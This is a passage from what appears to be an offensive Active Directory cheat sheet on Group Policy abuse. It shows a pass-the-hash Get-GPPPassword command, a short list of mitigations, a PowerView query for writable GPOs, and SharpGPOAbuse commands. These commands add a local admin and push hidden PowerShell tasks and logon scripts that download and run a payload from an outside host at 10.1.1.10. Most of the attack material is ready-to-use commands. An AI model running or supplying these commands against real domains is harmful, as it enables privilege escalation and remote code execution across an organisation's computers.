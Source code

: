     # pass-the-hash
    Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
    ```
    

### Mitigations

- Install [KB2962486](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2014/ms14-025) on every computer used to manage GPOs which prevents new credentials from being placed in Group Policy Preferences.
- Delete existing GPP xml files in SYSVOL containing passwords.
- Don’t put passwords in files that are accessible by all authenticated users.

## Exploit Group Policy Objects GPO

> Creators of a GPO are automatically granted explicit Edit settings, delete, modify security, which manifests as CreateChild, DeleteChild, Self, WriteProperty, DeleteTree, Delete, GenericRead, WriteDacl, WriteOwner

:triangular\_flag\_on_post: GPO Priorization : Organization Unit > Domain > Site > Local

GPO are stored in the DC in `\\<domain.dns>\SYSVOL\<domain.dns>\Policies\<GPOName>\`, inside two folders **User** and **Machine**.
If you have the right to edit the GPO you can connect to the DC and replace the files. Planned Tasks are located at `Machine\Preferences\ScheduledTasks`.

:warning: Domain members refresh group policy settings every 90 minutes with a random offset of 0 to 30 minutes but it can locally be forced with the following command: `gpupdate /force`.

### Find vulnerable GPO

Look a GPLink where you have the **Write** right.

```powershell
Get-DomainObjectAcl -Identity "SuperSecureGPO" -ResolveGUIDs |  Where-Object {($_.ActiveDirectoryRights.ToString() -match "GenericWrite|AllExtendedWrite|WriteDacl|WriteProperty|WriteMember|GenericAll|WriteOwner")}
```

### Abuse GPO with SharpGPOAbuse

```powershell
# Build and configure SharpGPOAbuse
$ git clone https://github.com/FSecureLABS/SharpGPOAbuse
$ Install-Package CommandLineParser -Version 1.9.3.15
$ ILMerge.exe /out:C:\SharpGPOAbuse.exe C:\Release\SharpGPOAbuse.exe C:\Release\CommandLine.dll

# Adding User Rights
.\SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight" --UserAccount bob.smith --GPOName "Vulnerable GPO"

# Adding a Local Admin
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount bob.smith --GPOName "Vulnerable GPO"

# Configuring a User or Computer Logon Script
.\SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"

# Configuring a Computer or User Immediate Task
# /!\ Intended to "run once" per GPO refresh, not run once per system
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
```